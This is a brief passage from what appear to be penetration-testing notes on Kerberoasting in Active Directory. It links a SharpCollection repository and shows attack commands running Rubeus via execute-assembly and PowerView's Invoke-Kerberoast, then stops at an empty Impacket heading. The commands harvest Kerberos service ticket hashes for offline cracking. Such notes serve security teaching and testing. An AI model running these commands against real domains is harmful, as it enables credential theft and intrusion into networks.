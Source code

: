 https://github.com/Flangvik/SharpCollection

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/Rubeus.exe kerberoast /nowrap
```

- `nowrap` for more beauty and not garbage result thoı
    
![alt text](../assets/images/kerberos6.png)
    

### Kerberoasting Attack with PowerView

```bash
Invoke-Kerberoast
```

![alt text](../assets/images/kerberos7.png)

### Kerberoasting Attack with Impacket
